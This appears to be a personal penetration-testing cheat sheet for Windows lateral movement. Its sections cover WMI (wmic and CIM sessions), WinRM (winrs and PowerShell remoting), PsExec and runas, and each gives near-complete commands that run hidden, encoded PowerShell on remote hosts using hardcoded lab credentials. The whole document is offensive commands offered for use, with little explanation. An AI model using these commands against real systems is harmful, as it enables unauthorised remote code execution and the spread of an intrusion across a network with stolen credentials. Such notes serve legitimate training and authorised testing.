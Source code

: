 
# ***Windows***
## WMI (rpc)
***runs as session 0***
```shell
# 1 Print payload
python3 ./encode.py


# 2 Run
# A cmd
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "powershell -nop -w hidden -e ..."

# B PS CimSession
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$TARGET = 192.168.207.72
$session = New-Cimsession -ComputerName $TARGET -Credential $credential -SessionOption options
$Command = "powershell -nop -w hidden -e ..."
Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$command};
```
## WinRm (RMU)
```shell
# 1 Print payload
python3 ./encode.py


# 2 Run
# A winrs
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop ..."

# B PS PsSession
$username = 'jen'; # known user
$password = 'Nexus123!'; # known password
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$TARGET = 192.168.50.73
New-PSSession -ComputerName $TARGET -Credential $credential
Enter-PSSession 1
```
## psexec.exe (password,smb,printer)
```shell
.\PsExec.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
.\PsExec.exe -i \\192.168.50.80 -u offensive -p security ipconfig
.\PsExec.exe -i \\192.168.50.80 -u offensive -p security powershell

# https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
```
## runas / start-process (GUI)
```shell
# A cmd
runas /user:[DOMAIN\]Administrator "cmd.exe /c powershell"
# /c (non-interactive) /k (interactive)

```